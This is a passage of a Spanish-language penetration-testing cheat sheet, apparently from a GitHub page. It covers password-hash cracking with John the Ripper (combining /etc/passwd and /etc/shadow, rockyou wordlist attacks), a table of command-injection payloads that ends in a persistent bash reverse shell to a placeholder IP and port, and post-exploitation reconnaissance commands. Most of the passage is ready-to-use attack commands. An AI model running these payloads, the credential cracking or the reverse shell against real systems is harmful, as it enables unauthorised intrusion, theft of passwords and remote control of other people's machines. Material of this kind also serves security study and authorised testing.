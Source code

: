 ### 3.3. Cracking de Hashes con John the Ripper

```bash
# Combinación de archivos del sistema para John
unshadow /etc/passwd /etc/shadow > hashes.txt

# Ataque con diccionario específico
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Cracking con reglas avanzadas (mutaciones)
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Mostrar passwords crackeados
john --show hashes.txt
```

### 3.4. Payloads de Inyección de Comandos (Tabla Consolidada)

| Payload de Ejemplo | Función |
|---|---|
| `127.0.0.1; whoami` | Ver usuario del proceso. |
| `127.0.0.1; uname -a` | Ver info sistema. |
| `127.0.0.1 && id` | Ejecuta `id` si el comando anterior tuvo éxito. |
| `127.0.0.1; sleep 5 && echo "test"` | Blind injection por tiempo. |
| `127.0.0.1; nohup bash -c 'bash -i >& /dev/tcp/IP/PUERTO 0>&1' &` | Reverse shell persistente en segundo plano. |

--- 

## 🚀 FASE 4: POST-EXPLOTACIÓN
*Una vez dentro, el objetivo es escalar privilegios y expandir el control.*

### 4.1. Reconocimiento Post-Explotación

```bash
# Verificación de identidad y privilegios
whoami
id

# Información del sistema operativo
uname -a
cat /etc/os-release

# Enumeración de usuarios del sistema
cat /etc/passwd

# Procesos en ejecución
ps aux

# Análisis de red interna desde host comprometido
netstat -tupln
arp -a
```
